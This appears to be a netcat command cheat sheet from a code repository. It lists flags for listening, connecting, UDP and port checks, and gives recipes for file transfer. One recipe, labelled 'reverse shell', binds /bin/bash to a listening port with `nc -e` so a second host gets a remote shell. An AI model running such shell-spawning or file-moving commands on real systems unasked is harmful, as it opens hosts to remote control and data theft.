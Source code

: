 * `nc -l port` listen for inbound connection on a port
  * **NOTE** some variations of `nc` requires `nc -l -p port`
* `nc 10.0.2.10 port` connect to remote host and port
* `nc -u ...` on UDP rather than TCP (which is default)
* `nc -w 10` terminate connection after 10 seconds
* `nc -z` report connection status only (can be used to test port open)
  * commonly used together with `-v`
  * e.g `nc -vz 10.0.2.10 8080`
* `nc -c command`
* `nc -e command`
* reverse shell
  * on host1: `nc -n -v -l -p 5555 -e /bin/bash`
  * on host2: `nc -nv host1 5555`
* transfer a file
  * on host1: `nc -l -p 8080 > out.file`
  * on host2: `nc host1 8080 < in.file`
* curl
  * `printf "GET / HTTP/1.0\r\n\r\n" | nc site-hostname 80`
